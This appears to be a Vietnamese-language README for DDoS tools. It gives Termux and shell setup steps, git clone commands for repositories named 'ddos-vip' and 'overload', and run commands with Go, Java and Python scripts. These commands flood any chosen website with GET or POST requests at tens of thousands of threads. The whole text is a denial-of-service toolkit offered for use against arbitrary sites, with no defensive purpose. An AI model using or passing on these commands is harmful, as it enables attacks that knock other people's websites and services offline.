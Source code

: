 # Setup termux
pkg install golang

pkg install openjdk-17
# Setup gg cloud
sudo apt install golang
# Lệnh Vào Tool
git clone https://github.com/User-xquyen/ddos-vip

cd toolddos-vippro
# Chế độ Get sài cho web https://
go run ddosbyXQ.go https://linkweb.com 2000 get 5000 nil
# Chế độ Post sài cho web http://
go run ddosbyXQ.go https://linkweb.com 2000 post 5000 header.txt
# Java DDoS siêu bá cân all web

java ddosbyXQ.java

Link web:

Thread: 170000

Method: 4000
# Overload DDoS
pkg install python3 python3-pip git -y

git clone https://github.com/7zx/overload

cd overload

pip3 install -r requirements.txt

python3 overload.py

├───Cách Nhập

├───TIME:1000

└───THREADS:20000

└───URL:link web
